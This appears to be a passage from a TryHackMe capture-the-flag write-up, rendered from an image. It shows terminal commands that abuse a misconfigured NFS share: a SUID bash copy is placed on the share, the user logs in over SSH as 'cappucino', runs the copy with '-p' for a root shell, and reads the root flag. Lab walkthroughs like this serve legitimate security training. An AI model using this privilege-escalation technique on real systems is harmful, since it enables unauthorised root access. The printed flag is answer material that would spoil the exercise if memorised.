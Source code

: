 ```
Access: 2024-06-20 19:03:23.731565869 +0700
Modify: 2024-06-20 19:04:02.549126170 +0700
Change: 2024-06-20 19:05:16.667286612 +0700
 Birth: 2024-06-20 19:03:23.731565869 +0700
```
~/Documents $  mv bash-nfs /tmp/mount-nfs
```
mv: cannot create regular file '/tmp/mount-nfs/bash-nfs': Permission denied
```
~/Documents $  sudo mv bash-nfs /tmp/mount-nfs
~/Documents $  ls /tmp/mount-nfs -a
```
.  ..  bash-nfs  cappucino
```
~/Documents $  ssh -i id_rsa cappucino@10.10.243.171
```
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 20 12:10:52 UTC 2024

  System load:  0.0               Processes:           101
  Usage of /:   45.2% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.243.171
  Swap usage:   0%


44 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 20 12:06:27 2024 from 10.9.2.88
```
cappucino@polonfs:~$  ../bash-nfs -p
bash-nfs-4.4#  ls -a
```
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .gnupg  .profile  .ssh  .sudo_as_admin_successful
```
bash-nfs-4.4#  cd /
bash-nfs-4.4#  ls -a
```
.   bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp	var	vmlinuz.old
..  boot  dev	home  initrd.img.old  lib64  media	 opt  root  sbin  srv	sys	  usr	vmlinuz
```
bash-nfs-4.4#  cd root/
bash-nfs-4.4#  ls -a
```
.  ..  .bash_history  .bashrc  .cache  .gnupg  .profile  root.txt  .ssh  .viminfo
```
bash-nfs-4.4#  cat root.txt
```
THM{nfs_got_pwned}
```
bash-nfs-4.4#  exit
```
exit
```
cappucino@polonfs:~$  exit
